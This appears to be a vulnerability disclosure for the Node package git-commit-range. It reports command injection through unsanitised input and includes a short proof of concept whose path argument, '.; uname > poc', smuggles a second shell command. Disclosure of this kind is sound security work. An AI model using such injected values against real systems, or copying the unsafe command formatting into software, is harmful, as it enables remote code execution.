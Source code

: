 # Description
The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-git-commit-range/blob/master/index.js#L32

# POC

```js
// poc.js
const gitCommitRange = require('git-commit-range');

gitCommitRange(); 

gitCommitRange({
  path: '.; uname > poc',
  from: '15be93c31ad87c9ced03ba0b60fc2fb55c977c5c',
  to: '32b940b014322834966d79b109d2d7adec8e3ea3',
  include: false,
});
```

# Impact
`RCE` on `git-commit-range` via `insecure command formatting`
